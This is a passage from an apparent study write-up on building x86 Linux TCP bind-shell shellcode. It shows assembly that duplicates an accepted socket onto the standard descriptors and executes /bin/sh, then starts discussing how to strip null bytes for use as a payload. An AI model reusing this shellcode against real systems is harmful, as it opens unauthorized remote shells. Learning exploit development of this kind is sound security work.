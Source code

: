     ; accept() returns a new fd value, so let's store this one off too
    xor edi, edi      ; 0 out edi before backing up fd
    mov edi, eax      ; back up the fd value in edi again

    ; DUP2 syscall (3 times)
    ; int dup2(int oldfd, int newfd);
    xor eax, eax      ; zero out eax
    mov eax, 0x3f     ; move 63 into register (syscall number)
    mov ebx, edi      ; move fd into 1st param (from accept)
    xor ecx, ecx      ; zero out 2nd param (0)
    int 0x80          ; syscall (1st)

    xor eax, eax      ; zero out eax
    mov eax, 0x3f     ; move 63 into register (syscall number)
    mov ebx, edi      ; move fd into 1st param (from accept)
    xor ecx, ecx      ; zero out 2nd param (0)
    mov ecx, 0x1      ; move 1 into 2nd param
    int 0x80          ; syscall (2nd)

    xor eax, eax      ; zero out eax
    mov eax, 0x3f     ; move 63 into register (syscall number)
    mov ebx, edi      ; move fd into 1st param (from accept)
    xor ecx, ecx      ; zero out 2nd param (0)
    mov ecx, 0x2      ; move 2 into 2nd param
    int 0x80          ; syscall (3rd)

    ; EXECVE() syscall
    ; int execve(const char *pathname, char *const argv[], char *const envp[]);
    ; NOTE, param 2 and 3 are pointers to strings. XOR, PUSH then point to STACK in register
    xor eax, eax      ; zero out eax ready for pushing 0s on to the stack
    push eax          ; push first zero on, align the stack?

    ; "/bin/sh" in hex is 0x2f 0x62 0x69 0x6e 0x2f 0x73 0x68
    ; we flip these because it's little endian
    ; 0x68732f6e, 0x69622f

    push 0x68732f6e
    push 0x69622f2f   ; note the // at the end, sigsevs without - junk corrupting it?
    mov ebx, esp      ; push the addr of our above string (esp) into 1st param

    push eax          ; push 0 onto the stack (2nd param == NULL)
    mov ecx, esp      ; requires a pointer - man page has them for usage

    push eax          ; push 0 onto the stack (3rd param == NULL)
    mov edx, esp      ; requires a pointer - man page has them for usage

    xor eax, eax      ; zero out eax
    mov eax, 0xb      ; move 11 into EAX register (syscall number)
    int 0x80          ; final syscall
```

After dumping the hex from the executable, I noticed that there were a tonne of null bytes within the output - which is not good for our payload. In order to remove these, a second draft needs to be looked into and come up with a way to use the same instructions with no null bytes remaining.

## Second Draft:
After playing around with the script for a while and testing a few things, I was able to tweak the script a little to remove some bloat and still successfully create a working TCP bind shell. The changes are relatively trivial, but it should help pull down the overall byte size of the payload (marginal), but ultimately it helped me learn some new tricks in x86 such as loops. The main changes I made to the assembly were:

* removed all xor instructions used to clear a register before moving a value into it
    * after removing each of these, I realised that this led to issues when making the system calls. I used strace to attempt to see what was going on. Looking at the following output snippet, we can see that the registers must have had junk left over before using them for our call - resulting in garbage values.

```